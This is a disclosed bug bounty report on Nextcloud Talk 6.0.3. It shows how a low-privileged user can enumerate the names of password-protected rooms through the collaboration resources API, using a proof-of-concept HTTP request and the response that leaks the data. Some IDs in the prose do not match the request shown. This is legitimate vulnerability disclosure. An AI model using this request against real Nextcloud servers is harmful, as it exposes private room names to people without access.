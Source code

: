# Talk - Leak of password-protected room name via already existent resource addition

## Report Details
- **Report ID**: 662218
- **URL**: https://hackerone.com/reports/662218
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-07-28T11:34:30.410Z
- **Disclosed**: 2020-03-01T13:18:20.583Z

## Reporter
- **Username**: foobar7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
CVSS
----

Medium 4.3 [CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N)

Description
-----------

Affected: Talk / Spreed 6.0.3

The name of shared but password-protected rooms leaks to low-privileged authenticated users. 

An attacker does not need to guess room IDs, but can simply iterate over IDs to gather all names of all affected rooms.

POC
---

Setup:

- Add a password-protected room: Talk -> New conversation -> enter a name -> Share link -> set password
- Add a project: Projects -> Add a project -> select a file

Attack with a low-privileged user: 

- Build the following request (eg by going to Projects -> Add project -> select a file in a project the user has access to):

        POST /nextcloud/nextcloud/ocs/v2.php/collaboration/resources/collections/21?format=json HTTP/1.1
        Host: 192.168.0.104
        User-Agent: [...]
        Accept: application/json, text/plain, */*
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Content-Type: application/json;charset=utf-8
        requesttoken: [...]
        Content-Length: 43
        Connection: close
        Cookie: [...]

        {"resourceType":"file","resourceId":"1619"}

`16` is the ID of the password-protected room that the user does not have access to. `1626` is the ID of a file that was shared under the "projects" tab in that room. It is required that the file is already shared, but IDs are iterative and can easily be bruteforced.

The response will contain the room name & ID and the name of the shared file:

    HTTP/1.1 200 OK
    [...]

    {"ocs":{"meta":{"status":"ok","statuscode":200,"message":"OK"},"data":{"id":21,"name":"privateprivateprivate","resources":[{"type":"file","id":"1619","name":"aaaa.txt","path":"files\/aaaa.txt","link":"http:\/\/192.168.0.104\/nextcloud\/nextcloud\/index.php\/f\/1619","mimetype":"text\/plain","preview-available":true},{"type":"room","id":"w3die6ou","name":"privateprivateprivate","call-type":"public","iconUrl":"http:\/\/192.168.0.104\/nextcloud\/nextcloud\/apps\/spreed\/img\/app-dark.svg","link":"http:\/\/192.168.0.104\/nextcloud\/nextcloud\/index.php\/call\/w3die6ou"}]}}}

## Impact

leak of all password-protected room names to low-privileged attacker

## Attachments
No attachments
